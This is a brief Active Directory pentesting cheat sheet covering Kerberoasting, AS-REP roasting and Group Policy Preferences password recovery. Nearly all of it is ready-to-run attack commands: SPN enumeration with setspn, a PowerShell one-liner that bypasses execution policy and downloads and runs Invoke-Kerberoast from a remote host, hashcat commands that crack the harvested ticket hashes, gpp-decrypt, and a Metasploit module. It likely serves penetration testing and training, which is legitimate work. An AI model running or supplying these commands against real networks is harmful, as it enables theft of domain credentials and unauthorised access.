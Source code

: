 AD

**KERBEROASTING**

Enumerating Accounts in SPN (Service Principal Name):

Powershell Commands when Accessible

~~~PowerShell
setspn -T "DOMAIN\USER" -Q ​ */*
~~~

~~~PowerShell
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://10.13.7.30/Windows/Powershell/Empire/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat
~~~

Decrypt etype23 Hashes from Kerberoasted passwords:

format::
$krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.local:30111*$A88A8D57DAEBC82CC......

~~~bash
hashcat -m 13100 -​a 0 hash.txt wordlist --force
~~~

Decrypt etype23 Hashes from AS-REP passwords:

format::
$krb5asrep$Admin2@CONTROLLER.local:C669E64E38F0BDC104039C58......

~~~bash
hashcat -m 18200 hash.txt Pass.txt
~~~

**GPP**

https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/

Relies on groups.xml found in sysvol

~~~bash
gpp-decrypt Hash
~~~

Metasploit post module

~~~bash
smb_enum_gpp
~~~

